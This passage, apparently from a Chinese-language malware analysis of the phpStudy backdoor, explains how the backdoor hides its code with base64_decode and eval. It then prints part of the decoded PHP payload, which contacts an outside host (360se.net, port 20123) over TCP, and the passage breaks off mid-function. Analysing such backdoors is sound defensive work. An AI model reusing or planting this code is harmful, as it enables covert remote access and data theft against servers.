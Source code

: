 ![](/pics/Analysis-of-phpStudy-Backdoor/5.png)

可以看到 Shellcode 中通过 base64_decode 函数揭秘 base64 加密的字符串，并将解密的结果使用 eval 函数执行。通过解密密文来执行恶意代码也是黑客用来编写病毒或者是后门的一种手法，可以将原本一眼就能看出的奇怪的代码完美地隐藏在密文之下，以达到偷偷执行恶意代码的目的。

下面就可以通过 base64 解密后可以得到最终的恶意代码。

```php
@ini_set("display_errors","0");
error_reporting(0);
$h = $_SERVER['HTTP_HOST'];
$p = $_SERVER['SERVER_PORT'];
$fp = fsockopen($h, $p, $errno, $errstr, 5);
if (!$fp) {
} else {
	$out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
	$out .= "Host: {$h}\r\n";
	$out .= "Accept-Encoding: compress,gzip\r\n";
	$out .= "Connection: Close\r\n\r\n";

	fwrite($fp, $out);
	fclose($fp);
}
@ini_set("display_errors","0");
error_reporting(0);
function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
	$result = "";
  $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10);
  if( !$handle ){
    $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
	if( !$handle ){
		return "err";
	}
  }
  fwrite($handle, $sendMsg."\n");
	while(!feof($handle)){
		stream_set_timeout($handle, 2);
		$result .= fread($handle, 1024);
		$info = stream_get_meta_data($handle);
		if ($info['timed_out']) {
		  break;
```
